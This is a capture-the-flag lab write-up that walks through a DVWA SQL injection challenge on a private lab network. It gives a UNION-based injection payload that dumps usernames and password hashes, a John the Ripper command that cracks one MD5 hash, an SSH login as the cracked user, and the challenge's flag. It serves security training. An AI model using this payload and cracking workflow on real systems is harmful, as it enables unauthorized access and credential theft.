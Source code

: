 ## Challenge 1: SQL Injection
# Objective:
Find the password for Gordon Brown's account using SQL injection, then access the file containing the flag.

# Steps:

1. Navigate to http://10.6.6.100 using your browser.
2. Login using the following credintials:

Username: admin

Password: password

3. After logging in, set the DVWA security level to low.
4. Navigate to the SQL Injection page:

5. Find the User ID field and enter the following payload:

  1' OR 1=1 UNION SELECT user, password FROM users #

This will exploit the SQL injection vulnerability to retrieve usernames and their password hashes.

6. Crack Gordon Brown’s password:

Copy the hash for Gordon Brown's password into a text file. 

echo e99a18c428cb38d5f260853678922e03 > passwd.txt

7. Use John the Ripper to crack the password hash:

john --format=raw-md5 passwd.txt

8. Login as Gordon Brown:

ssh gordonb@172.17.0.2
Locate the flag:

9. Once logged in, run the following command to list files in the home directory:

  ls

10. You will see a file called hkxisx.txt. Open it to find the flag:

cat hkxisx.txt
# Result: 

Flag for Challenge 1: 4E9f12
